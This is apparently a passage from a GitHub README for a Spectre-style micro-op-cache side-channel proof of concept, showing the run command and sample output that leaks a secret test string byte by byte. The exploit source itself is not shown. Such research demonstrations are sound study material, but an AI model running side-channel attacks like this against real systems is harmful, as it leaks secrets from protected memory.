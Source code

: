 ```
$./spectre_uopcache
```

Then, you can get the results as follows.

```
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffffdfd0... Success: 0x54='T' score=9    (second best: 0xF6 score=2)
Reading at malicious_x = 0xffffffffffffdfd1... Success: 0x68='h' score=9    (second best: 0x17 score=2)
Reading at malicious_x = 0xffffffffffffdfd2... Success: 0x65='e' score=9    (second best: 0xB1 score=2)
Reading at malicious_x = 0xffffffffffffdfd3... Success: 0x20=' ' score=11    (second best: 0xF7 score=3)
Reading at malicious_x = 0xffffffffffffdfd4... Success: 0x4D='M' score=11    (second best: 0x2D score=3)
Reading at malicious_x = 0xffffffffffffdfd5... Success: 0x61='a' score=11    (second best: 0x52 score=3)
Reading at malicious_x = 0xffffffffffffdfd6... Success: 0x67='g' score=9    (second best: 0x30 score=2)
Reading at malicious_x = 0xffffffffffffdfd7... Success: 0x69='i' score=9    (second best: 0x52 score=2)
Reading at malicious_x = 0xffffffffffffdfd8... Success: 0x63='c' score=9    (second best: 0x52 score=2)
Reading at malicious_x = 0xffffffffffffdfd9... Success: 0x20=' ' score=9    (second best: 0xA2 score=2)
Reading at malicious_x = 0xffffffffffffdfda... Success: 0x57='W' score=9    (second best: 0x52 score=2)
Reading at malicious_x = 0xffffffffffffdfdb... Success: 0x6F='o' score=11    (second best: 0x52 score=3)
Reading at malicious_x = 0xffffffffffffdfdc... Success: 0x72='r' score=11    (second best: 0x52 score=3)
Reading at malicious_x = 0xffffffffffffdfdd... Success: 0x64='d' score=15    (second best: 0x0B score=5)
Reading at malicious_x = 0xffffffffffffdfde... Success: 0x73='s' score=9    (second best: 0x9C score=2)
Reading at malicious_x = 0xffffffffffffdfdf... Success: 0x20=' ' score=11    (second best: 0x2D score=3)
Reading at malicious_x = 0xffffffffffffdfe0... Success: 0x61='a' score=11    (second best: 0x77 score=3)
Reading at malicious_x = 0xffffffffffffdfe1... Success: 0x72='r' score=15    (second best: 0x0B score=5)
Reading at malicious_x = 0xffffffffffffdfe2... Success: 0x65='e' score=9    (second best: 0x77 score=2)
Reading at malicious_x = 0xffffffffffffdfe3... Success: 0x20=' ' score=9    (second best: 0x9C score=2)
Reading at malicious_x = 0xffffffffffffdfe4... Success: 0x53='S' score=11    (second best: 0x17 score=3)
Reading at malicious_x = 0xffffffffffffdfe5... Success: 0x71='q' score=11    (second best: 0x0B score=3)
Reading at malicious_x = 0xffffffffffffdfe6... Success: 0x75='u' score=11    (second best: 0x0B score=3)
Reading at malicious_x = 0xffffffffffffdfe7... Success: 0x65='e' score=11    (second best: 0x0B score=3)
Reading at malicious_x = 0xffffffffffffdfe8... Success: 0x61='a' score=15    (second best: 0x0B score=5)
Reading at malicious_x = 0xffffffffffffdfe9... Success: 0x6D='m' score=9    (second best: 0x13 score=2)
Reading at malicious_x = 0xffffffffffffdfea... Success: 0x69='i' score=9    (second best: 0x17 score=2)
Reading at malicious_x = 0xffffffffffffdfeb... Success: 0x73='s' score=9    (second best: 0x17 score=2)
```